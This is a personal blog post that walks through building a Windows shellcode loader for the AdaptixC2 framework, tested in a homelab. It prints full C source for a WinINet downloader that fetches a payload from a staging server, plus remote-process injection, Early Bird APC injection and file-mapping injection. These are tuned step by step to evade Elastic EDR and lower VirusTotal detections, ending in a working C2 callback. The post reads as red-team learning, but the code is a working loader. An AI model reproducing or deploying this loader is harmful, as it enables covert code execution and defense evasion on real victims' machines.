+++
title = 'Crafting a Loader: My First Experience in Malware Development'
date = 2026-03-21T01:26:34-04:00
tags = ["C2", "red team", "programming", "malware development"]
+++

So after spending what felt like a reasonable amount of time on the defensive side of things as setting up homelabs, staring at Kibana dashboards, and learning what alerts look like, I figured it was time to see what those alerts are actually for. The logical next step was to write the thing that triggers them. Armed with my SOC homelab, a copy of Adaptix C2, a dangerously short reading list on Windows internals, and the kind of confidence that only comes from not fully understanding what you're getting into, I set out to build a loader from scratch. 

## Introduction to AdaptixC2

The general consensus is that Adapatix C2 provides a similar experience to Cobalt Strike. In CRTO I learned the red team methodologies through Cobalt Strike thus here I'd use Adaptix for C2 server, listener and agent.

### Initial Setup

The sections under the [*Getting Starting*](https://adaptix-framework.gitbook.io/adaptix-framework/adaptix-c2/getting-starting) module of [*Adaptix's documentation*](https://adaptix-framework.gitbook.io/adaptix-framework) provide with guide to build server and client images from source. A gist of commands to follow is:

```sh
git clone https://github.com/Adaptix-Framework/AdaptixC2.git
cd AdaptixC2

sudo ./pre_install_linux_all.sh all

make server-ext

make client-fast
```

Next, one would need to generate SSL certificates for the teamserver. The command to aid is

```sh
openssl req -x509 -nodes -newkey rsa:2048 -keyout server.rsa.key -out server.rsa.crt -days 3650
```



The server and key names are to be fed into a YAML file which provides with configuration for the teamserver. The example configuration in the documentation is as follows:

```yml
Teamserver:
  interface: "0.0.0.0"
  port: 4321
  endpoint: "/endpoint"
  password: "pass"
  only_password: true
  operators:
    operator1: "pass1"
    operator2: "pass2"
  cert: "server.rsa.crt"
  key: "server.rsa.key"
  extenders:
    - "extenders/beacon_listener_http/config.yaml"
    - "extenders/beacon_listener_smb/config.yaml"
    - "extenders/beacon_listener_tcp/config.yaml"
    - "extenders/beacon_listener_dns/config.yaml"
    - "extenders/beacon_agent/config.yaml"
    - "extenders/gopher_listener_tcp/config.yaml"
    - "extenders/gopher_agent/config.yaml"
  axscripts:
#    - "Extension-Kit/extension-kit.axs"
  access_token_live_hours: 12
  refresh_token_live_hours: 168

HttpServer:
  error:
    status: 404
    headers:
      Content-Type: "text/html; charset=UTF-8"
      Server: "AdaptixC2"
      Adaptix-Version: "v1.2"
    page: "404page.html"
  http:
    max_header_bytes: 8192
    read_header_timeout_sec: 0
    read_timeout_sec: 0
    write_timeout_sec: 0
    idle_timeout_sec: 0
    request_timeout_sec: 300
    request_timeout_message: "504 Gateway Timeout"
    disable_keep_alives: false
    enable_http2: true
  tls:
    min_version: "TLS1.2"
    max_version: "TLS1.3"
    prefer_server_cipher_suites: false
    cipher_suites:
      - "TLS_ECDHE_RSA_WITH_AES_128_GCM_SHA256"
      - "TLS_ECDHE_RSA_WITH_AES_256_GCM_SHA384"
      - "TLS_ECDHE_ECDSA_WITH_AES_128_GCM_SHA256"
      - "TLS_ECDHE_ECDSA_WITH_AES_256_GCM_SHA384"
      - "TLS_RSA_WITH_AES_128_GCM_SHA256"
      - "TLS_RSA_WITH_AES_256_GCM_SHA384"
```

To read more about the parameters [*click here*](https://adaptix-framework.gitbook.io/adaptix-framework/adaptix-c2/getting-starting/starting).

Finally, start the server using the following command:

```
./adaptixserver -profile profile.yaml
```



And connect through the client.





### Listeners and Agents

To create a listener one'd need to click on the *headphones* icon. In the `listener` tray that appears in bottom-half of the dashboard, right-click and choose the `create` option. Configure the listener properties as required in the dialog window.



Finally, to create an agent for the listener, right-click on the listener and select `Generate agent`. Configure the options and save the agent to the disk.



### Execution

I executed the beacon agent EXE file on a Windows 11 system with only default Windows Security controls for consumer workstations and no enterprise or similar solutions. It wasn't detected by the running defender process and I recieved a callback.





But it was flagged by vendors as AdaptixC2 assocaited malware when I uploaded it to VirusTotal.



As evident from the image above, Elasic successfully detected the agent. To validate this, I transferred the agent to the SOC-homelab Windows 11 endpoint VM I had created in previous blog-post.





In the following sections, I'll try to create a custom loader that bypasses Elastic's detection and allows me to run the beacon agent.

### Further Reading for Adaptix C2

I'd recommend going through the following sections to establish accquaintance with Adaptix

- [Getting Starting](https://adaptix-framework.gitbook.io/adaptix-framework/adaptix-c2/getting-starting)
- [User Interface](https://adaptix-framework.gitbook.io/adaptix-framework/adaptix-c2/user-interface)
- [Listeners and Agents](https://adaptix-framework.gitbook.io/adaptix-framework/adaptix-c2/listeners-and-agents)

## The Skeleton of a Loader

My aim was to create a simple loader that fetches the payload from a staging web server and executes. To build this, the two components to be developed were:

1. **Downloader** - Section of code that fetches the payload from the remote staging server over HTTP. (Yes HTTP, I know, but this is just some exercise not an operation so I guess this would do).
2. **Executor** - Section of code that executes the payload retrieved.

### Downloader

I used the Wininet library to create the downloader named as the function `FetchBlob` in the following code. The general structure of the code-block is
- Take the staging server's URL in `lpszUrl`.
- Fetch the data in chunks of `4096` bytes (I should've created a macro for that atleast, but here we are) and save it in a temporary chunk. Consolidate the chunk to the larger buffer.
- Return the address of the buffer and its size in `ppBlob` and `psBlobSize` respectively.

```c
// Retrieves payload from the staging web server
BOOL FetchBlob(
	IN		LPCWSTR	lpszUrl,
	OUT		PBYTE*	ppBlob,
	OUT		PSIZE_T	psBlobSize
) {
	BOOL bSTATE = TRUE;

	HINTERNET	hInternet		= NULL;
	HINTERNET	hInternetFile	= NULL;

	PBYTE		pBuffer			= NULL;
	SIZE_T		sBufferSize		= 0;

	DWORD		dwBytesRead = 0;

	BYTE		pTmpBuffer[4096];

	hInternet = InternetOpenW(NULL, NULL, NULL, NULL, NULL);
	if (hInternet == NULL) {
		DEBUG_PRINT("InternetOpenW failed with error: %lu\n", GetLastError());
		bSTATE = FALSE;
		goto _CleanUp;
	}

	hInternetFile = InternetOpenUrlW(hInternet, lpszUrl, NULL, NULL, INTERNET_FLAG_HYPERLINK, NULL);

	if (hInternetFile == NULL) {
		DEBUG_PRINT("InternetOpenUrlW failed with error: %lu\n", GetLastError());
		bSTATE = FALSE;
		goto _CleanUp;
	}

	while (TRUE) {
		if (!InternetReadFile(hInternetFile, pTmpBuffer, sizeof(pTmpBuffer), &dwBytesRead)) {
			DEBUG_PRINT("InternetReadFile failed with error: %lu\n", GetLastError());
			bSTATE = FALSE;
			goto _CleanUp;
		}

		if (!(dwBytesRead > 0)) {
			break;
		}

		if (pBuffer == NULL)
			pBuffer = (PBYTE)HeapAlloc(GetProcessHeap(), HEAP_ZERO_MEMORY, dwBytesRead);
		else
			pBuffer = (PBYTE)HeapReAlloc(GetProcessHeap(), HEAP_ZERO_MEMORY, pBuffer, sBufferSize + dwBytesRead);

		if (pBuffer == NULL) {
			DEBUG_PRINT("Failed to (re)allocate pBuffer. Last error: %lu\n", GetLastError());
			bSTATE = FALSE;
			goto _CleanUp;
		}

		memcpy(pBuffer + sBufferSize, pTmpBuffer, dwBytesRead);

		sBufferSize += dwBytesRead;
	}

	*ppBlob		= pBuffer;
	*psBlobSize	= sBufferSize;

_CleanUp:
	if (hInternetFile)
		InternetCloseHandle(hInternetFile);
	if (hInternet) {
		InternetCloseHandle(hInternet);
		InternetSetOptionW(NULL, INTERNET_OPTION_SETTINGS_CHANGED, NULL, 0);
	}
	RtlSecureZeroMemory(pTmpBuffer, 4096);

	return bSTATE;
}
```

The `DEBUG_PRINT` macro helps me to strip the debug `printf` statements at compile time when I want to. It is defined as follows, when `LOG_DEBUG_MSG` is defined the `DEBUG_PRINT` statements are essentially `printf` calls specifying file and line number along with the message passed. When `LOG_DEBUG_MSG` is not defined, `DEBUG_PRINT` turns to be just a `void` statement.

```c
#define LOG_DEBUG_MSG

#ifdef LOG_DEBUG_MSG
#define DEBUG_PRINT(fmt, ...) \
	printf("[DEBUG] (%s:%d) " fmt "\n", __FILE__, __LINE__,  ##__VA_ARGS__)
#else
#define	DEBUG_PRINT(fmt, ...) ((void)0)
#endif // !LOG_DEBUG_MSG
```

### The Executor

The age old `VirtualAlloc` -> `VirtualProtect` -> `CreateThread` is as simple as it is signatured. I used this flow to establish a *control sample* for future reference and it served as a basic executor to validate my downloader logic simultaneously. The parameters are the buffer address and size populated by previously mentined downloader logic.

```c
void Run(
	IN	PBYTE	pBlob,
	IN	SIZE_T	sBlobSize
) {
	BOOL	bSTATE			= TRUE;

	PBYTE	pExecBlob = NULL;
	DWORD	dwOldProtection	= 0;

	HANDLE	hThread = NULL;

	pExecBlob = VirtualAlloc(NULL, sBlobSize, MEM_RESERVE | MEM_COMMIT, PAGE_READWRITE);

	if (pExecBlob == NULL) {
		DEBUG_PRINT("VirtualAlloc failed with error: %lu\n", GetLastError());
	}

	memcpy(pExecBlob, pBlob, sBlobSize);
	RtlSecureZeroMemory(pBlob, sBlobSize);

	if (!VirtualProtect(pExecBlob, sBlobSize, PAGE_EXECUTE_READ, &dwOldProtection)) {
		DEBUG_PRINT("VirtualProtect failed with error: %lu\n", GetLastError());
		bSTATE = FALSE;
	}

	hThread = CreateThread(NULL, NULL, pExecBlob, NULL, NULL, NULL);
	if (hThread == NULL) {
		DEBUG_PRINT("CreateThread failed with error: %lu\n", GetLastError());
		bSTATE = FALSE;
	}

	WaitForSingleObject(hThread, INFINITE);

	return bSTATE;
}
```

### An attempt at execution

To validate the functionality I used `msfvenom` to create a  payload to spawn a calculator `calc.exe`.

I created a dump function to display bytecodes fetched (*visible in terminal in the background*) from the remote staging server before executing it.



I labelled this loaders as *NetUtil.exe* and served through a python web server.

This version of loader was detected as soon as it was downloaded on the endpoint device with Elastic's EDR agent (My [previous blog](https://ashtrace.github.io/posts/soc_homelab_101/) post may help in configuring a SOC homelab with Elastic).



The corresponding alert on the Kibana dashboard was:



The Virustotal performance of this loader was more glorious than the Adaptix's C2 agent executable itself as it score 20 compared to 12 detections of Adaptix's binary.



## Why inject in yourself when you can inject others?

While I did not hope to achieve much from this but this seemed to me as the next logical step and thus in a simple subsitution of target processes I replaced the target of payload injection from loader to a secondary process. The code logic was same as the rudimentory `Run` function described above with slight subsitutions to operate in context of target process.

Run | RunRemote
----|-----------
VirtualAlloc | VirtualAllocEx
memcpy | WriteProcessMemory
VirtualProtect | VirtualProtectEx
CreateThread | CreateRemoteThread

```c
void RunRemote(
	IN	HANDLE	hProcess,
	IN	PBYTE	pBlob,
	IN	SIZE_T	sBlobSize
) {
	PVOID	pExecAddress			= NULL;
	
	SIZE_T	sNumberOfBytesWritten	= NULL;

	DWORD	dwOldProtection			= NULL;

	pExecAddress = VirtualAllocEx(hProcess, NULL, sBlobSize, MEM_RESERVE | MEM_COMMIT, PAGE_READWRITE);
	if (pExecAddress == NULL) {
		DEBUG_PRINT("VirtualAllocEx failed with error: %lu\n", GetLastError());
		return FALSE;
	}

	if (!WriteProcessMemory(hProcess, pExecAddress, pBlob, sBlobSize, &sNumberOfBytesWritten)) {
		DEBUG_PRINT("WriteProcessMemory failed with error: %lu\n", GetLastError());
		return FALSE;
	}

	if (!VirtualProtectEx(hProcess, pExecAddress, sBlobSize, PAGE_EXECUTE_READ, &dwOldProtection)) {
		DEBUG_PRINT("VirtualProtectEx failed with error: %lu\n", GetLastError());
		return FALSE;
	}

	RtlSecureZeroMemory(pBlob, sBlobSize);

	if (CreateRemoteThread(hProcess, NULL, NULL, pExecAddress, NULL, NULL, NULL) == NULL) {
		DEBUG_PRINT("CreateRemoteThread failed with error: %lu\n", GetLastError());
		return FALSE;
	}

	return TRUE;
}
```

Whilte the `pBlob` and the `sBlobSize` were the same as those in the `Run` function, the `hProcess` was handle to the target process which was derived by enumerating processes on the target system and opening handle to the one specified.

- `CreateToolhelp32Snapshot` was used to create a snapshot of all running processes.
- `Process32First` and `Process32Next` were used to iterate through the snapshot to find the target process specified in parameter `lpszProcessName`.
- Finally, a handle to the target process was opened and return through `phPRocess`

```c
BOOL GetRemoteProcessHandle(
	IN	LPWSTR	lpszProcessName,
	OUT	PHANDLE phProcess
) {
	BOOL	bSTATE		= TRUE;

	HANDLE hSnapshot	= NULL;

	PROCESSENTRY32 Proc = {
		.dwSize = sizeof(PROCESSENTRY32)
	};

	hSnapshot = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, NULL);
	if (hSnapshot == INVALID_HANDLE_VALUE) {
		DEBUG_PRINT("CreateToolhelp32Snapshot failed with error: %lu\n", GetLastError());
		bSTATE = FALSE;
		goto _CleanUp;
	}

	if (!Process32First(hSnapshot, &Proc)) {
		DEBUG_PRINT("Process32First failed with error: %lu\n", GetLastError());
		bSTATE = FALSE;
		goto _CleanUp;
	}

	do {
		if (Proc.szExeFile) {
			if (_wcsicmp(Proc.szExeFile, lpszProcessName) == 0) {
				wprintf(L"[i] Found process \"%s\" with PID: %d\n", lpszProcessName, Proc.th32ProcessID);
				*phProcess = OpenProcess(PROCESS_ALL_ACCESS, FALSE, Proc.th32ProcessID);
				if (*phProcess == NULL) {
					DEBUG_PRINT("OpenProcess failed with error: %lu\n", GetLastError());
					bSTATE = FALSE;
					goto _CleanUp;
				}

				break;
			}
		}
	} while (Process32Next(hSnapshot, &Proc));

_CleanUp:
	if (hSnapshot)
		CloseHandle(hSnapshot);

	return bSTATE;
}
```

### Testing time

Running locally, it is evident from the image below that the loader successfully discovered target process and the execution of `calc.exe` shows that payload was injected into it and called.



Labelling and serving as *NetUtil2*, I downloaded it onto the monitored enpoint and it was detected just as its predecessor.



The VirusTotal detection score decremented by 1, still greater than the original executable let alone anywhere near defense evasion.



## Early bird gets the worm

Now, my first target towards reduced detection was to replace execution through newly created thread to some other alternative. Here, I leveraged **Early Bird APC Injection** technique.

### Early Bird? APC?

APC stands for asynchronous procedure call. As per [Microsoft's documentation](https://learn.microsoft.com/en-us/windows/win32/sync/asynchronous-procedure-calls)

> An asynchronous procedure call (APC) is a function that executes asynchronously in the context of a particular thread. When an APC is queued to a thread, the system issues a software interrupt. The next time the thread is scheduled, it will run the APC function. 

Essentially, through APC injection one can replace the currently executing procedure to another function which may be our shellcode. Thus no new threads are created but the existing one is redirected.

Early Bird APC injection means that we divert the execution to the target function as soon as a process is launched. This can be achieved through different means, the one demonstrated below spawns a child process but attaches the parent loader process as it's debugger and thus breakpoint is inserted at the `main` function of the child process. This gives time to push an APC call to replace the `main` function with shellcode and then the breakpoint is removed to resume execution.

As the name suggests `CreateSuspendedProcess` creates a debugged child process in suspended state for the executable specified by `lpszProcessName` and populates the parameters `phProcess`, `phThread` and `pdwProcessID` with handle to the child process, it's main thread and the process ID respectively.

```c
BOOL CreateSuspendedProcess(
	IN	LPCWSTR	lpszProcessName,
	OUT	PHANDLE	phProcess,
	OUT	PHANDLE	phThread,
	OUT	PDWORD	pdwProcessID
) {
	BOOL	bSTATE = TRUE;
	WCHAR	lpszTargetProcessPath[MAX_PATH * 2];
	WCHAR	WnDir[MAX_PATH];

	STARTUPINFO	Si = { 0 };
	PROCESS_INFORMATION Pi = { 0 };

	Si.cb = sizeof(STARTUPINFO);

	if (!GetEnvironmentVariableW(L"WINDIR", WnDir, MAX_PATH)) {
		DEBUG_PRINT("GetEnvironmentVariableW failed with error: %lu\n", GetLastError());
		bSTATE = FALSE;
		goto _EoF;
	}

	swprintf_s(lpszTargetProcessPath, MAX_PATH * 2, L"%s\\System32\\%s", WnDir, lpszProcessName);

	if (!CreateProcessW(NULL, lpszTargetProcessPath, NULL, NULL, FALSE, DEBUG_PROCESS, NULL, NULL, &Si, &Pi)) {
		DEBUG_PRINT("CreateProcessW failed with error: %lu\n", GetLastError());
		bSTATE = FALSE;
		goto _EoF;
	}

	*phProcess	= Pi.hProcess;
	*phThread	= Pi.hThread;
	*pdwProcessID = Pi.dwProcessId;

// End of Function
_EoF:
	if (*phProcess == NULL || *phThread == NULL)
		bSTATE = FALSE;
	return bSTATE;
}
```

Once the child process is created, to perform APC injection the following code segment is leveraged. While `VirtualAllocEx`, `WriteProcessMemory` and `VirtualProtectEx` are retained to transfer the shellcode to child process's memory, `CreateRemoteThread` is now replaced by `QueueUserAPC` thus providing alternative method for execution.

```c
BOOL ScheduleRun(
	IN	HANDLE	hProcess,
	IN	HANDLE	hThread,
	IN	PBYTE	pBlob,
	IN	SIZE_T	sBlobSize
) {
	BOOL	bSTATE = TRUE;
	PVOID	pAddress = NULL;
	DWORD	dwOldProtection = NULL;
	SIZE_T	sNumberOfBytesWritten = NULL;

	pAddress = VirtualAllocEx(hProcess, NULL, sBlobSize, MEM_RESERVE | MEM_COMMIT, PAGE_READWRITE);
	if (pAddress == NULL) {
		DEBUG_PRINT("VirtualAllocEx failed with error: %lu\n", GetLastError());
		bSTATE = FALSE;
		goto _EoF;
	}

	if (!WriteProcessMemory(hProcess, pAddress, pBlob, sBlobSize, &sNumberOfBytesWritten) || sNumberOfBytesWritten != sBlobSize) {
		DEBUG_PRINT("WriteProcessMemory failed with error: %lu\n", GetLastError());
		bSTATE = FALSE;
		goto _EoF;
	}

	if (!VirtualProtectEx(hProcess, pAddress, sBlobSize, PAGE_EXECUTE_READ, &dwOldProtection)) {
		DEBUG_PRINT("VirtualProtectEx failed with error: %lu\n", GetLastError());
		bSTATE = FALSE;
		goto _EoF;
	}

	if (!QueueUserAPC((PAPCFUNC)pAddress, hThread, NULL)) {
		DEBUG_PRINT("QueueUserAPC failed with error: %lu\n", GetLastError());
		bSTATE = FALSE;
		goto _EoF;
	}

// End of Function
_EoF:
	return bSTATE;
}
```

While `QueueUserAPC` queues the instructions to be executed they are executed only when debugger is removed. Thus the follow appears as follows:

```c
FetchBlob(argv[1], &pBlob, &sBlobSize);

CreateSuspendedProcess(argv[2], &hProcess, &hThread, &dwProcessID);

ScheduleRun(hProcess, hThread, pBlob, sBlobSize);

DebugActiveProcessStop(dwProcessID);
```

### Ah shit, here we go again

Labelling this version as *NetUtil3* and downloading it on monitored endpoint got me nowhere but back to detection.



But uploading it to VirusTotal showed that the detection score dropped to 13, still one greater than the Adaptix's binary but a siginficant improvemnt in the loader logic nonetheless.



## Cartography

`VirtualAlloc(Ex)`, `VirtualProtect(Ex)` and `WriteProcessMemory` are highly flagged as an indicator for malicious code and thus I needed alternative for the same. A differnt technique to transfer shellcode is through **Remote File Mapping** injection.

### Remote File Mappings and Injection

Remote File Mappings allow to create shared memory regions accessible between different processes. This eliminates the need of `VirtualAllocEx` to allocate memory in target process. The injection logic can be interepreted as:

- `CreateFileMapping` allows to create a mapping object i.e. allocate virtual memory backed by a pagefile. As there is no need to load a file, thus I specify `INVALID_HANDLE_VALUE` for `hFile` parameter. While I need to provide specify `PAGE_EXECUTE_READWRITE` for `flProtect` parameter it dictates this section objects maximum allowable permissions. The map views of the memory page would writable or executable, *but separately* in the two processes. Thus is does not appear to be a grave issue.
- `MapViewOfFile` was used to create a local view of the mapping object and obtain local address for the memory with write access as specified by `FILE_MAP_WRITE`. Using this address, I wrote the shellcode into the memory.
- `MapViewOfFile2` was used to obtain remote address in target process's view of the mapping object. This memory was designated to be executable and thus byte written by local process could be executed by remote process.

```c
BOOL CopyBlob(
	IN	HANDLE	hProcess,
	IN	PBYTE	pBlob,
	IN	SIZE_T	sBlobSize,
	OUT	PVOID* ppBlobCopyAddress
) {
	BOOL	bSTATE	= TRUE;
	HANDLE	hFile	= NULL;
	PVOID	pMapLocalAddress = NULL,
			pMapRemoteAddress = NULL;

	hFile = CreateFileMapping(INVALID_HANDLE_VALUE, NULL, PAGE_EXECUTE_READWRITE, NULL, sBlobSize, NULL);

	if (hFile == NULL) {
		DEBUG_PRINT("CreateFileMapping failed with error: %lu\n", GetLastError());
		bSTATE = FALSE;
		goto _EndOfFunction;
	}

	pMapLocalAddress = MapViewOfFile(hFile, FILE_MAP_WRITE, NULL, NULL, sBlobSize);
	if (pMapLocalAddress == NULL) {
		DEBUG_PRINT("MapViewOfFile failed with error: %lu\n", GetLastError());
		bSTATE = FALSE;
		goto _EndOfFunction;
	}

	memcpy(pMapLocalAddress, pBlob, sBlobSize);

	pMapRemoteAddress = MapViewOfFile2(hFile, hProcess, NULL, NULL, NULL, NULL, PAGE_EXECUTE_READ);
	if (pMapRemoteAddress == NULL) {
		DEBUG_PRINT("MapViewOfFile2 failed with error: %lu\n", GetLastError());
		bSTATE = FALSE;
		goto _EndOfFunction;
	}

	*ppBlobCopyAddress = pMapRemoteAddress;

_EndOfFunction:
	if (hFile)
		CloseHandle(hFile);

	return bSTATE;
}
```

The parameter `ppBlobCopyAddress` contains the executable memory's address in the context of the remote process. I pushed this address through Early Bird APC Injection technique discussed earlier into child process for execution.

### Success? Sort of.

I renamed this version as *NetUtil4.exe* and downloaded on monitored endpoint. **It wasn't detected**.



But I could not run it because being the idiot that I am, I shipped the debug build and executing *NetUtil4.exe* complained for missing `VCRUNTIME140D.dll`. Recompiling the release build with *Multi-Threaded* configuration instead of DLL depedent *Multi-Threaded DLL* Runtime Library flag and downloading it on monitored endpoint led to a detection.





At this moment, I said to myself - *One problem at a time* and installed the Microsoft Visual C++ Runtime library onto the endpoint (*with a promise to explore the alternatives later*).

Re-downloading the *Mulit-Threaded DLL* build lead to no detection.



I executed the loader with URL to payload and a process to spawn and hijack for execution on the monitored endpoint and it spawned `calc.exe`.



Next, I replaced the `blob.bin` from `msfvenom` payload to beacon shellcode for Adaptix.



Passing the loader with URL to beacon shellcode I recieved a callback onto the C2 server from the monitored endpoint. I had to add parameter as `InternetOpenUrlW` cached the URL for `blob.bin` with `msfvenom` calc.exe payload, I re-configured that later as explained in following section.





The VirusTotal score for this version of loader was 6 i.e. half of the original Adaptix C2 beacon executable and almost 1/4th of the original rudimetory loader.

Furthermore, as per VirusTotal Elastic did detect the loader.


The `PDB` path contained the original binary name as in the project. The symbols and IAT table would've been another give away for the loader. I'd look at these indicators and more some other day.

## The Cache Issue

While appending parameter allowed to bypass the cached version of `blob.bin`, a permanent solution would be to include the no-cache specific flags in the `InternetOpenUrlW`'s `dwFlags` parameter.

```c
	hInternetFile = InternetOpenUrlW(
		hInternet,
		lpszUrl,
		NULL,
		NULL,
		INTERNET_FLAG_HYPERLINK | INTERNET_FLAG_RELOAD | INTERNET_FLAG_NO_CACHE_WRITE | INTERNET_FLAG_PRAGMA_NOCACHE,
		NULL
	);
```
